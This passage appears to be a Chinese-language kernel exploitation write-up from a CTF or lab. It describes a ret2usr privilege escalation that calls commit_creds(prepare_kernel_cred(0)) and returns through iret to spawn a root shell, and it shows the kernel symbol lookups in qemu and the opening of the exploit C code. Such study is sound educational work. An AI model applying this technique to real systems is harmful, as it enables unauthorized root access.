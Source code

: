 # Exploit

思路：利用 `commit_creds(prepare_kernel_creds(0))` 提升权限，然后返回到用户模式执行 `system("/bin/sh")` 获得 root shell。

system call mechanism:

普通函数调用：

- 使用 `call` 和 `ret` 指令
- 栈上保存返回地址

用户态 -> 内核态调用：

- 使用 `int` 和 `iret` 指令
- 栈上保存 `trap frame`

返回到用户模式执行 `iret` 指令，关于iret指令:

当使用 `iret` 指令返回到相同保护级别的任务时，`iret` 会从堆栈弹出代码段选择子及指令指针分别到 `CS` 与 `IP`
寄存器，并弹出标志寄存器内容到 `EFLAGS` 寄存器。

当使用 `iret` 指令返回到一个不同的保护级别时，`iret` 不仅会从堆栈弹出以上内容，还会弹出堆栈段选择子及堆栈指针
分别到 `SS` 与 `SP` 寄存器。

`iret` 以 `trap frame` 结构保存用户态信息。

```c
struct trap_frame {
	void * eip ; // instruction pointer
	uint32_t cs ; // code segment
	uint32_t eflags ; // CPU flags
	void * esp ; // stack pointer
	uint32_t ss ; // stack segment
} __attribute__ (( packed ));
```

在qemu中获得两个函数的地址：

```bash
/ # grep prepare_kernel_cred /proc/kallsyms 
c1069700 T prepare_kernel_cred
c1604d4c r __ksymtab_prepare_kernel_cred
c160e458 r __kcrctab_prepare_kernel_cred
c16151e0 r __kstrtab_prepare_kernel_cred
/ # grep commit_cred /proc/kallsyms 
c1069560 T commit_creds
c11bd900 T security_commit_creds
c1604d6c r __ksymtab_commit_creds
c160e468 r __kcrctab_commit_creds
c161521c r __kstrtab_commit_creds
```

exploit 代码：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/stat.h>
#include <string.h>
#include <stdint.h>

struct trap_frame{
    void *eip;
    uint32_t cs;
    uint32_t eflags;
    void *esp;
    uint32_t ss;
};
```